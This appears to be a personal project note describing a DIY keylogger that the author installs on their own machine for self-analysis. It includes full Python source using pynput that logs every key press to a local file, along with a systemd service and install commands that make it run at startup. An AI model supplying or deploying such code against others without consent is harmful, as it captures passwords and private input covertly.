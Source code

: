 ```yaml
---
share: true
uuid: 03ce87b5-898b-4e7a-9c47-6694c8d652fe
title: DIY Keylogger
---
```

## Description

The goal of this project is to install a key logger on myself so I can later do analysis on the data I generate. **Beware** running this will log your passwords to a file in user space unless you remember to turn it off and on.

## Install Instructions

``` bash
python3 -m pip install pynput 
nano keylogger.py
# Copy Contents from below into file
sudo cp keylogger.py /opt
mkdir -p ~/.config/systemd/user
nano keylogger.service
# Copy Contents from below into file
envsubst < keylogger.service > temp.txt && mv temp.txt keylogger.service
cat keylogger.service
cp keylogger.service ~/.config/systemd/user/keylogger.service

# Start Keylogger
systemctl --user start keylogger.service

# Enable keylogger on startup
systemctl --user enable keylogger.service

# Check if keylogger is running
systemctl --user status keylogger.service

# Stop keylogger
systemctl --user stop keylogger.service

# To update keylogger.py script
systemctl --user daemon-reload
systemctl --user restart keylogger.service
systemctl --user status keylogger.service
# Check keylogger logs
cd ~/keylogger
ls
cat key*
```

## keylogger.py

``` python    
#!/bin/python3
# keylogger.py
import importlib

def check_and_install_dependency(package):
    try:
        importlib.import_module(package)
        print(f"{package} is already installed.")
    except ImportError:
        print(f"{package} is not installed. Installing...")
        try:
            import pip
            pip.main(['install', package])
            print(f"{package} has been successfully installed.")
        except ImportError:
            print("pip is not installed. Please install pip and try again.")
            return

    print(f"Loading {package}...")
    importlib.import_module(package)
    print(f"{package} has been loaded successfully.")
check_and_install_dependency('pynput')

from pynput import keyboard
import logging
import os
import socket
import sys

log_dir = "/home/paul/Documents/Software/keylogger"
if len(sys.argv) > 1:
    log_dir = sys.argv[1]
print(f"{log_dir}/keyLog-{str(socket.gethostname())}.txt")
try:
	os.makedirs(log_dir)
except:  
    print(f'PATH {str(log_dir)} already exists')
logging.basicConfig(filename = f"{log_dir}/keyLog-{str(socket.gethostname())}.txt", 
    level=logging.DEBUG, format='%(asctime)s: %(message)s')


def get_key_name(key):
    if isinstance(key, keyboard.KeyCode):
        return key.char
    else:
        return str(key)

def on_press(key):
    key_name = get_key_name(key)
    logging.info('Key {} pressed.'.format(key_name))
    print(key_name)

def on_release(key):
    key_name = get_key_name(key)
    logging.info('Key {} released.'.format(key_name))

with keyboard.Listener(
    on_press = on_press,
    on_release = on_release) as listener:
    listener.join()
    
```

## keylogger.service

``` service
# keylogger.service
[Unit]
Description=Keylogger Service
# Requires=display-manager.service
# After=display-manager.service
# Environment='DISPLAY=:0'

[Service]
ExecStart=/usr/bin/python3 /opt/keylogger.py /home/paul/keylogger

[Install]
WantedBy=multi-user.target

```


## Troubleshooting

``` bash
sudo /usr/bin/python -m ensurepip --upgrade
sudo /usr/bin/python -m pip install six
sudo /usr/bin/python -m pip install python-xlib
sudo /usr/bin/python -m pip install six

```
## Links

* [Keylogger Binding](/23b9004c-6bb4-4bc8-a79a-d27e2fb4f35c)
* [keylogger research](/undefined)

## Sources

* [Design a Keylogger in Python](https://www.tutorialspoint.com/design-a-keylogger-in-python)
* [Logging in Python – Real Python](https://realpython.com/python-logging/)
* [ChatGPT - A ShareGPT conversation](https://sharegpt.com/c/al2TNIJ)
